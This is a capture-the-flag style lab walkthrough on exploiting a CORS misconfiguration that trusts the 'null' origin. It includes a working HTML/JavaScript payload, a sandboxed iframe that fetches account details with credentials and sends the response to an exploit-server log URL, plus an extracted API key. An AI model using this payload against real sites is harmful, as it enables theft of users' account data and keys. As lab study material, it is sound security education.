



# Lab 2: CORS vulnerability with trusted null origin

> Lab Objective: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- Login using provided credentials `wiener:peter`, then inspect login requests and responses.

- You'll notice that there is a `GET` request sent to `/accountDetails` that retrieves User's information.
  

- Send that `GET` request to the repeater, then:

  - Add `Origin: https://attacker.com` to the request headers, you'll notice that isn't reflected.
    

    - But with `Origin: null`, it's reflected.
      

- Use this code to exploit the vulnerability:

```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <iframe
      sandbox="allow-scripts allow-top-navigation allow-forms"
      src="data:text/html,<script>
      let req = new XMLHttpRequest();
      url =
        'https://0ab700b903b03109814b395c00d10007.web-security-academy.net/accountDetails';
      req.onload = reqlistener;
      req.open('GET', url, true);
      req.withCredentials = true;
      req.send();

      function reqlistener() {
        document.location = 'https://exploit-0a4a00fc03f6310b811a38bf01cb0021.exploit-server.net/log?key=' + this.responseText;
      }
    </script>"
    >
    </iframe>
  </body>
</html>
```

- Then access '/log' and search for administrator and extract his apikey = `8TOuSbZFmKPdQhzI2jTegu0f59qleaY2`
